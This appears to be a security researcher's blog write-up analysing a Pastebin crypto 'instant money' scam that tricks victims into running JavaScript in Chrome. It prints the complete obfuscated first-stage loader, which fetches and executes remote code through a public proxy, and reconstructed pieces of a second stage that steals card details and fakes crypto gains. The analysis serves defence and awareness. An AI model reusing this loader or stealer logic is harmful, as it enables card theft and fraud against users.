






It was a crisp Tuesday evening, November 11, 2025, and I was unwinding with a documentary about the murky world of cybercrime—specifically, how hackers move in the shadows, donning black hats and orchestrating scams. The story stirred up memories of a group I had been investigating a couple of months ago, a clandestine collective known as _LucasLeaks_. Back then, I had painstakingly dissected their elaborate, heavily obfuscated JavaScript payloads, the very code they used to siphon Bitcoin from unsuspecting victims. After successfully debunking their scheme, the group seemed to vanish, leaving nothing but digital traces and whispers in the wind.

Yet tonight, as I leaned back with my dinner, a familiar itch for the hunt resurfaced. I fired up my custom Python script—an agile little sentinel that silently monitors Pastebin, Hastebin, Paste.sh, Justpaste.it, and similar platforms for any mention of compromised data. It scans for keywords like "Breached data," "Leaked SSN," "Leaked credentials," and the ever-lurking phrase "Instant Money." The script works tirelessly, an ever-vigilant watchtower in the chaotic landscape of the deep web.

Then, the signal came. One paste stood out like a flare in the dark. A post with the title, _"Instant Money Method."_

That moment—the familiar rush of adrenaline—hit. The language was unmistakable, and my instincts kicked in. This could be the next chapter. A fresh trail, or perhaps a breadcrumb left by _LucasLeaks_ or a similar group, now emboldened and back in action. The hunt was on again.

*Disclaimer:* Yes it is an instant money method, but not for you guys, for them. Stay alert while receiving such requests, there is no instant way to money.

---
# ❓Intro - Who are they?



**Post Title:** 💎 Instant Money Method 💎🚨💎
**Author:** STUNZEED1235
**Date of post:** Nov 11th, 2025

The paste itself was thin—just a breezy opening line and a single Google Docs link with a hashed post ID. You might scoff: how dangerous can a Google Doc be? The link is harmless on its face, but that’s the point. Time and again, threat actors weaponize innocuous cloud docs as drop points: a two-page “user manual” that, in marketing language, explains the so-called _trick_ for instant money—when what it really documents is an exploit. Think of it like the quick-start guide that comes with a new gadget, except instead of helping you set up a speaker, it hands you the keys to someone’s bank account.

Why package malware like consumer instructions? Because complexity and scale are at odds. The malware itself can be fiendishly intricate, but these groups want volume — tons of victims who don’t need technical chops. So they simplify: turn the exploit into a step‑by‑step walkthrough. Follow the checklist, press the buttons, and voilà—compromise for the masses. “Just follow the steps, and get hacked,” is more accurate than it sounds.

As for who’s behind it, the paste offers no breadcrumbs. My cursory OSINT turned up nothing: no branded Telegram channels, no signature handles, no vanity tags. Not like _LucasLeaks_, who slapped their name across every channel. This gang is nameless — anonymous to the point of deliberate invisibility. For tracking purposes I’ve been calling them **changeNOW**, after the title stamped on their method: _“changeNOW Profit Method.”_ It’s a provisional name, a tag on a file in the dark, but from a hunter’s perspective, a name is a start.

---
# 🥷StunZeed - Is he the leader, or just a troop?



The trail sharpened when I followed the paste’s footprint back to a single author: an account called _StunZeed_. It wasn’t a one‑off — the screenshot shows a steady drip of pastes, the kind of relentless posting cadence you see when someone is trying to blanket a platform and net as many unwitting clicks as possible. Every entry follows the same playbook: a short intro, a Google Docs link, and a promise of quick cash. Open the docs and you find the same two‑page “user manual” and, crucially, the same final payload woven into each guide.

A closer read reveals two obvious signatures. First, despite wildly different titles, every paste orbits money and crypto: anything that smells like profit gets posted. Second, they all use _JavaScript_ as the syntax — a clear hint that the payloads rely on client-side scripts. That repetition is the hunter’s friend: you can fingerprint behavior even when actors try to hide behind noise.

I tried to peel away their anonymity. I searched for “StunZeed1235”, “StunZeed1234”, and plain “StunZeed” across social platforms and with targeted dorking. Nothing turned up except the Pastebin activity. The account’s history stretches back nearly two years, which suggests it’s not a fresh throwaway — yet there’s no cross‑platform identity to follow. At best, it looks like a paste‑only persona, deliberately compartmentalized.

That doesn’t mean the case goes cold. The pattern is obvious, the payload consistent, and the distribution mechanism is simple enough to scale. The next move is to observe — but only inside safe, lawful bounds: sandbox the docs, capture indicators, and map TTPs without interacting with live victims or executing malicious code in the wild. The breadcrumbs are there; now it’s a question of turning them into a clean, actionable profile of whoever’s behind _changeNOW_ and their proxy account, _StunZeed_.

---
# 📖Playbook - Changenow method user guide


The Google Docs link opens to a Drive file shared anonymously — the kind of dead‑drop you’d expect from someone who wants to leave no fingerprints. The doc’s executive summary reads like a crypto‑tech whisper:

> *ChangeNOW has an older backend node connected to Swapzone partner API. On direct ChangeNOW, this node is no longer used for public swaps. However, when accessed through Swapzone, the rate calculation passes through Node v1.9 for certain BTC pairs. This old node applies a different conversion formula for BTC to ANY, which results in ~38% higher payouts than intended.*

If that sounds like alphabet soup, you’re not alone — I wasn’t a crypto specialist either until I dug in. The pitch is simple and seductive: exploit an obscure legacy node (Node v1.9) that allegedly miscomputes BTC conversion rates and awards roughly **38% extra**. It reads like a golden backdoor for instant profit — the exact bait you’d spray across forums and pastes to lure clicks.

Here’s the ugly truth beneath the marketing gloss: the 38% bump is a carrot, not a guaranteed windfall. Victims who report “higher payouts” aren’t seeing a legitimate protocol bug reward — they’re watching client‑side values get fiddled. The doc points to a JavaScript payload that tweaks front‑end numbers, changing what the user _sees_ and what the UI _reports_, not what the backend securely settled. In short: it’s social engineering dressed up as a technical loophole — persuasive, plausible, and engineered to scale.

From a hunter’s perspective, that one paragraph is gold: it reveals intent (cashout scale), vector (cloud docs → client‑side JS), and victim psychology (promises of easy profit). Red flags everywhere — anonymous sharing, legacy‑node claims that sound arcane, and a clean, simple narrative designed to get nontechnical users following a script. This isn’t a clever protocol exploit so much as a confidence trick wrapped in code. Proceed with caution, and never execute or test untrusted payloads in a production environment.



The paste reads like a siren’s one‑liner: **“You must use Google Chrome”** and **“manually type `javascript:`”** — compact instructions that turn curious dabblers into execution vectors. That phrasing isn’t clumsy; it’s the funnel. Tell everyone the same two steps, and millions of browsers behave predictably.

Why Chrome? Because ubiquity breeds predictability. Attackers design for Chrome’s V8 engine and consistent UI so the payload behaves the same across a massive audience. Chrome’s rich APIs (clipboard, WebCrypto, payment and auth flows) and tight Google integration (autofill, logged‑in accounts) give client‑side scripts a buffet of ways to deceive or siphon value. Fewer variables = higher success.

Why `javascript:`? Because asking a user to paste a `javascript:` snippet or run code in the console hands attackers a live execution channel inside the page context. That lets them rewrite DOM values, spoof dialogs, intercept form data, or fake “higher payouts” in real time. It’s not a backend miracle — it’s UI fakery: victims see what the attacker wants them to see.

And while this paste didn’t name a specific extension, the same principle applies to browser add‑ons or userscript managers: convincing a victim to install an extension or userscript is a shortcut to persistence and broad privileges. Malicious scripts injected this way can persist across sessions, run on every site, and quietly harvest tokens or alter transactions.

Put together, the recipe is simple and ruthlessly effective: promise improbable gains, instruct the victim to open Chrome and execute a snippet (or install a script), then let client‑side code manipulate the interface or steal data. It’s social engineering engineered for scale.

Hunter’s quick flags:

- Explicit “use Chrome” instruction → high‑probability attack surface.
- Ask to paste `javascript:` into address bar/console → immediate red flag (direct code execution).
- Prompts to install extensions/userscript managers → persistence + privilege risk.
- Bait claims like “38% extra” tied to simple browser actions → social‑engineering lure.
- Anonymous cloud docs linking to client‑side payloads → classic drop‑and‑deploy.

Defensive posture (concise):

- Never execute unknown `javascript:` snippets or paste code into devtools.
- Treat instructions to change browsers or install extensions as social‑engineing attempts.
- Observe in isolated sandboxes or ephemeral VMs (no saved credent
- Capture DOM/network indicators for IOCs instead of interacting live.
- Report/takedown the paste and track the poster pattern for automated blocking.

Bottom line: those two short directives are an intentional conversion funnel — a low‑skill, high‑yield play that weaponizes the browser’s convenience. For a hunter, they’re not guidance; they’re the alarm bell.

---
# 🥚Initial Payload - Ender dragon's egg



From a distance, this payload looks harmless — just four unassuming lines of JavaScript. But don’t let its minimal footprint deceive you. What you’re seeing here is not “four simple lines”; it’s a **compressed, weaponized matryoshka doll** of malicious logic. The attacker has crammed an entire secondary stage into this tiny snippet, folding layers upon layers of hex-encoded mischief into a minuscule footprint.

This cute little **“egg”** is the seed from which the **Ender Dragon** of this campaign hatches.

**Payload Analysis:**

```
(function(){const NODE='https://swapzone.io/exchange/nodes/changenow/68747470733a2f2f736e69707065742e686f73742f786d716173762f726177/btc/node-1.9.js'.match(/changenow\/(.*?)\//)[1];const u=NODE.match(/.{1,2}/g).map(b=>String.fromCharCode(parseInt(b,16))).join('');const NODE_API_KEY='68747470733a2f2f6170692e636f6465746162732e636f6d2f76312f70726f78793f71756573743d';const api=NODE_API_KEY.match(/.{1,2}/g).map(b=>String.fromCharCode(parseInt(b,16))).join('');fetch(api+encodeURIComponent(u)).then(r=>r.text()).then(code=>{const s=document.createElement('script');s.textContent=code;document.documentElement.appendChild(s);});})();
```

If this snippet makes your palms sweat, good — that’s exactly what the attacker wants. This kind of formatting (or rather, **strategic removal of formatting**) is a classic evasion technique to frustrate static analysis and slow down investigators.



Once beautified, the true shape of the loader begins to emerge. Let’s dissect it piece by piece.

## JavaScript Payload Analysis

### 1) The Wrapper

```
"(function(){...})();"
```

A self-invoking anonymous function — a classic stealth mechanism. The moment this script lands on the page, it **wakes up and executes**, leaving no opportunity for the DOM to breathe or defenders to intervene.
### 2) Extracting NODE

```
"const NODE='https://swapzone.io/exchange/nodes/changenow/68747470733a2f2f736e69707065742e686f73742f786d716173762f726177/btc/node-1.9.js'.match(/changenow\/(.*?)\//)[1];"
```

- A constant is declared with variable name *"NODE"* which shows a URL, and a regex to capture the part between *changenow/* and the next *"/"*. Looking at that part, I had my doubts because it looks like some encoding - `68747470733a2f2f736e69707065742e686f73742f786d716173762f726177` and definitely it is not a random string of numbers as a sub-directory.
- I figured out that it looks like a *hex value* and after decoding it the URL we get it this: `https://snippet.host/xmqasv/raw` 
- So NODE effectively becomes that URL, but it's still hex in the source and is decoded later, and see how smartly the attacker used regex to hide the real value of the variable.
### 3) Hex to URL (variable 'u')

```
const u=NODE.match(/.{1,2}/g).map(b=>String.fromCharCode(parseInt(b,16))).join('');
```

- Going on to the next line, we can see that it splits the *HEX* string into *bytes*, parses each as hex and then converts it in characters and join them together to make a proper string.
- So here, the variable "u" is the decoded URL.
### 4) The proxy base URL

```
const NODE_API_KEY='68747470733a2f2f6170692e636f6465746162732e636f6d2f76312f70726f78793f71756573743d';

const api=NODE_API_KEY.match(/.{1,2}/g).map(b=>String.fromCharCode(parseInt(b,16))).join('');
```

- The variable *NODE_API_KEY* is a hex value which decodes to: `https://api.codetabs.com/v1/proxy?quest=`
- The variable *"api"* is the codetabs proxy endpoint.
- If you look properly, then the URL ends with `?quest=` which means it is still incomplete, it requires a value.
- CodeTabs provides a free public **CORS proxy service**, and developers use it when their website or script needs to request data from another server that does not allow **cross-origin requests (CORS)**.
### 5) Final fetch and dynamic script injection

```
fetch(api+encodeURIComponent(u))
  .then(r=>r.text())
  .then(code=>{
    const s=document.createElement('script');
    s.textContent=code;
    document.documentElement.appendChild(s);
});
```

- This fetches a URL: `https://api.codetabs.com/v1/proxy?quest=` + `encodedURIComponent(u)`. 
- Here "u" was the URL: `https://snippet.host/xmqasv/raw`
- Final URL: `https://api.codetabs.com/v1/proxy?quest=https%3A%2F%2Fsnippet.host%2Fxmqasv%2Fraw`
- It retrieves whatever is at that proxied URL, and codetabs is being used as a CORS/HTTP proxy so the loader can retrieve remote content even if the remote host would block cross-origin requests.
- The response is read as text, then the returned text is placed into an in-document **"<script\>** element via `textContent` and appended to `document.documentElement`, which executes it in the page context. So eventually, it retrieves another JavaScript payload from the proxied URL and executes it on the page by putting it in script tag.

---
# 🐉Final Boss - The Ender Dragon



**Sample snippet:**

```
function jLbFJYjPBSsBN(){const pUsPgUCZPQKhU$NhOwvv_Si=['f5f4a6e6fafafde0a5a1fdffeef9f6fde4e1a3afe5eefcedf1a1a5fae0effcf9fda4f2a3e2fdf0a0f3fb','b9e4e3eefbf2e4c8f8f1f1f2e5c8c8a5d4e6e2fdb7fefaf0ccf6fbe3aab5d4fff6f9f0f2d9d8c0b7fbf8f0f8b5ca','fef9f4fbe2f3f2e4','f3fee4e7fbf6ee','f6f5e4','c8a7eff4a3','b9f4f8e7eebaf5fbf8f4fcc8fbf6f5f2fbc8c8a6afc0e7a1','f4f8f9e3f6fef9e4','e7f6e5f2f9e3d9f8f3f2','f3fee1','fff8e4e3f9f6faf2','f5f4a6e6e7e5a3e2ede1a3e0e0faeea2fbfae1a0afe5f6f3e6e1fafaf0fae7e3f4a0fda5f0f9ffe4e5a7','fef9f9f2e5dfc3dadb','a6a4afa3afc2f6f5cdf2f4'......
```

Once we peel back the loader, we encounter the **true monstrosity** — a sprawling, obfuscated JavaScript hydra. From afar it almost resembles ASCII art. From up close, it’s a **forest of hex-like fragments**, randomized variable names, and algorithmic noise. This monstrosity needs **days** to fully detangle — and I plan to write a dedicated Part 2 for it — but even surface-level deobfuscation reveals some chilling mechanics.

**Form value stealer:**

```
// Decoding the string array reveals these constants:
const DECODED_STRINGS = {
    // Form selectors
    cardNumberInput: 'input[name="cardNumber"]',
    cvvInput: 'input[name="cvv"]',
    expiryInput: 'input[name="expiry"]',
    cardholderName: 'input[name="cardholderName"]',
    
    // Button selectors
    submitButton: 'button[type="submit"]',
    checkoutButton: '.checkout-btn',
...
...
...
    // URLs
    redirectUrl: 'https://www.example.com/404',
...
...
...
    // Character set for obfuscation
    charSet: '0123456789abcdefghijklmnopqrstuvwxyz',
```

The script quietly listens to payment-related fields, snatching values the moment the victim enters them, then **redirects the user to a fake 404 page** — a psychological trick to suggest the transaction “failed” while the attacker walks away with the credit card details. The const variables declare some form fields which are later captured from the actual form, and it also shows the charset used for obfuscation.

**Fake loading screen:**

```
// HTML template for fake overlay
overlayHTML: `
    <div class="loading-overlay" style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.8);z-index:99999;display:flex;justify-content:center;align-items:center;">
        <div style="text-align:center;color:white;">
            <div class="spinner" style="border:4px solid #f3f3f3;border-top:4px solid #3498db;border-radius:50%;width:50px;height:50px;animation:spin 2s linear infinite;"></div>
            <p>Processing transaction...</p>
            <p id="countdown-timer">00:30</p>
        </div>
    </div>
    <style>
    @keyframes spin {
        0% { transform: rotate(0deg); }
        100% { transform: rotate(360deg); }
    }
    </style>
```

An animated spinner, a countdown timer, and dimmed background — all theatrics to stall the user while the payload siphons data. A beautiful play of misdirection, while you are focused at the other hand the magician silently performs the trick from his another hand.

**Fake increment in crypto percentage:**

```
// Key numeric constants
const PRICE_MULTIPLIER = 1.38;  // Inflates prices by 38%
const MIN_AMOUNT_THRESHOLD = 0.01; // Minimum transaction to target
const TIMER_DURATION = 30000; // 30 seconds fake loading
const POLL_INTERVAL = 500; // Check every 500ms
```

This part manipulates UI elements to trick users into believing their crypto gains are increasing. There is no real increase of crypto play, it is just a simple manipulation.

---
# ⭐Summary

The investigation began with what looked like a tiny, harmless four-line JavaScript snippet — the kind of thing most people wouldn’t blink at. But peeling back the layers revealed a meticulously engineered loader that decoded hidden hex, tunneled through a public CORS proxy, and quietly fetched its real payload. Its entire structure was built for stealth, designed to slip under the radar while blending into normal web behavior.

Then came the second stage — the true **Ender Dragon** — a massive obfuscated script that looked like cosmic static more than code. Even at a surface level, it exposed clear intentions: capturing credit-card details, spoofing legitimate checkout flows with fake loading screens, and manipulating UI elements to inflate crypto values. The attacker mixed technical precision with psychological tricks, showing a solid understanding of both JavaScript internals and human behavior.

What makes this threat notable is how seamlessly these components work together. It’s not just malware — it’s a crafted experience built to deceive, distract, and extract. And while this summary only scratches the surface, it’s already clear the author behind this operation knew exactly what they were doing. The deeper breakdown is coming in Part 2, and that’s where we’ll really get to slay the dragon.

_Part 2 is going to be fun..._


